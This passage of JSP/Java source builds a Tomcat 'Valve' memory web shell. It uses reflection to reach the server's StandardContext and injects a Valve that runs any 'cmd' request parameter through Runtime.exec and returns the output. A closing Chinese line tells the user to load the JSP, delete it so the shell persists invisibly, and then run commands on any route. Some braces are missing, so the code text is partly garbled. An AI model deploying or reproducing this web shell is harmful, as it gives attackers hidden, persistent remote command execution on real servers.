(StandardHost) children.get(this .serverName); children = (HashMap) getField(standardHost, "children" ); Iterator iterator = children.keySet().iterator(); while (iterator.hasNext()){ String contextKey = (String) iterator.next(); if (!(this .uri.startsWith(contextKey))){continue ;} StandardContext standardContext = (StandardContext) children.get(contextKey); this .standardContext = standardContext; return ; } } } } public StandardContext getSTC () return this .standardContext; } } %> <% Tomcat6789 a = new Tomcat6789(); StandardContext standardContext = a.getSTC(); %> <% class MyValve implements Valve private Valve next; @Override public Valve getNext () return next; } @Override public void setNext (Valve valve) next = valve; } @Override public void backgroundProcess () } @Override public void invoke (Request request, Response response) throws IOException, ServletException HttpServletRequest req = request; String cmd = req.getParameter("cmd" ); if (cmd != null ) { InputStream in = Runtime.getRuntime().exec(cmd).getInputStream(); Scanner s = new Scanner(in).useDelimiter("\\A" ); String output = s.hasNext() ? s.next() : "" ; PrintWriter out = response.getWriter(); out.println(output); out.flush(); out.close(); } getNext().invoke(request, response); } @Override public boolean isAsyncSupported () return true ; } } standardContext.getPipeline().addValve(new MyValve()); %>
访问注入valve内存马的jsp文件，然后删除jsp文件，访问任意路由，添加cmd参数执行命令